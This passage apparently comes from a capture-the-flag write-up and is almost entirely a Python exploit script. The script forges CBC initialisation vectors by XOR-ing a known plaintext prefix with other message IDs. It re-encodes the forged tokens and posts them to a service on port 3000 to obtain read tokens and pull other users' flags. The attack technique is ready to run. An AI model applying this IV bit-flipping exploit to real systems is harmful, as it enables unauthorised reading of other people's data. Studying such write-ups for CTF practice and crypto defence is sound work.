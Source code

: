 Let's write a python programm that does all that:
```py
def exploit(target, token, flagids=[]):
    # Create random password
    pw = randomstring(32)

    # Create a random message
    resp = sess.post(f"http://[{target}]:3000/create", data={'type': 'text', 'content': randomstring(30), 'pw': pw})

    # Retrieve the token
    message_id = re.findall("Message with ID (\d+)", resp.text)[0]
    token = re.findall('value="(.*?)"', resp.text)[0]


    from pwn import xor, b64d, b64e

    # Decode token
    encoded_token = b64d(token)

    # Go over last 50 message before ours
    for i in range(int(message_id) - 50, int(message_id)):

        # Split token into parts
        iv = encoded_token[:16]
        ciphertext = encoded_token[16:-32]
        hmac = encoded_token[-32:]

        # Create forged IV
        known_cipher = f'{{"id":{message_id},'
        target_cipher = f'{{"id":{i},'
        xor_key = xor(known_cipher, target_cipher)
        iv = xor(iv[:len(xor_key)], xor_key) + iv[len(xor_key):]

        # Reencode the token
        re_encoded_token = b64e(iv + ciphertext + hmac)

        # Create a read token for the new ID
        resp = sess.post(f"http://[{target}]:3000/manage",
                        data={'token': re_encoded_token, 'pw': pw, 'newpw': pw, 'action': 'read'}).text

        # Get read token
        offset_1 = resp.find('<p class="big">')
        offset_2 = resp.find('</p>', offset_1)
        new_token = resp[offset_1 + 15:offset_2]

        # Read flag
        resp = sess.post(f"http://[{target}]:3000/", data={'token': new_token, 'pw': pw}).text
        printflags(resp)
# Exploit by Ben (not me)
```
